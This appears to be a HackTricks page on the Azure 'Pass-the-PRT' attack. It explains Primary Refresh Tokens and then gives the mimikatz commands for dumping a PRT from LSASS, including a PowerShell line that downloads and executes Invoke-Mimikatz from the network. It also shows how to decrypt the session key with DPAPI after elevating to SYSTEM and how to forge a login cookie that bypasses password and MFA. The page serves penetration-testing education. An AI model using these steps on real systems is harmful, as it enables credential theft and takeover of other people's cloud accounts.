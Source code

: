 # Az - Pass the PRT

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

This post was extracted from [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)

## What is a PRT

A **Primary Refresh Token (PRT)** is used to provide a **single sign-on (SSO)** experience for users of Windows 10 and mobile OSes.

When you log in in a device supporting thins SSO, Windows will **communicate with the Cloud Authentication Provider, validate** your credentials and **returns** the **PRT** and a **session key**. The **PRT is stored in LSASS**, and the **session key gets re-encrypted** with the local devices TPM and then stored alongside the PRT.&#x20;

Then, when the **browser** tries to access resources on the cloud, a **PRT cookie** is used to access them.

Once issued, a **PRT** is **valid** for **14 days** and is **continuously renewed** as long as the user actively uses the device. A PRT only has **MFA claims** if when accessing RDP you use **windows hello** or **windows account manager**.

It can be used to obtain access and refresh token to any application.

For more information about how this works read the [**documentation**](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token) or [**this page**](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/).

### Check if you have a PRT

```
Dsregcmd.exe /status
```

In the SSO State section, you should see the **`AzureAdPrt`** set to **YES**.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

In the same output you can also see if the **device is joined to Azure** (in the field `AzureAdJoined`):

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### Steps

1. **Extract** the **PRT from LSASS** and save this for later.&#x20;
2. **Extract** the **Session Key**.  If you remember this is issued and then re-encrypted by the local device, so we need to **decrypt this using a DPAPI masterkey**. For more info about DPAPI check this [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) link or the [**Pass-the-cookie attack**](az-pass-the-cookie.md).
3. Using the decrypted Session Key, we will obtain the derived key for the PRT and the context.   This is needed to **create our PRT cookie**.  The derived key is what is used to sign the JWT for the cookie. Dirk-jan did a great job explaining this process [here](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

Now we have everything we need to sign our own PRT Cookies and the rest of these steps can be done from any other system.

* We will use the PRT, derived key, and context to create a new PRT Cookie.
* Import the cookie into your browser session (we’ll use Chrome)
* That’s it!  You should now be authenticated as that user without having to know their password, or handle any MFA prompts.&#x20;

### Attack

You can use **mimikatz** to extract the PRT:

```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**Copy** the part labeled **Prt** and save it.\
Extract also the session key or “**ProofOfPosessionKey**” which you can see highlighted below. This is encrypted and we will need to use our DPAPI masterkeys to decrypt it.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
If you don’t see any PRT data it could be that you **don’t have any PRTs** because your device isn’t Azure AD joined or it could be you are **running an old version** of Windows 10.
{% endhint %}

To **decrypt** the session key you need to **elevate** your privileges to **SYSTEM** to run under the computer context to be able to use the **DPAPI masterkey to decrypt it**. You can use the following commands to do so:

```
Token::elevate
Dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Now you want to copy both the Context value:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

And the derived key value:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Finally you can use all this info to **generate PRT cookies**:

```
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

Go to [https://login.microsoftonline.com](https://login.microsoftonline.com), clear all cookies for login.microsoftonline.com and enter a new cookie.

```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
HttpOnly: Set to True (checked)
```

{% hint style="danger" %}
The rest should be the defaults.  Make sure you can refresh the page and the cookie doesn’t disappear, if it does, you may have made a mistake and have to go through the process again.  If it doesn’t, you should be good.
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
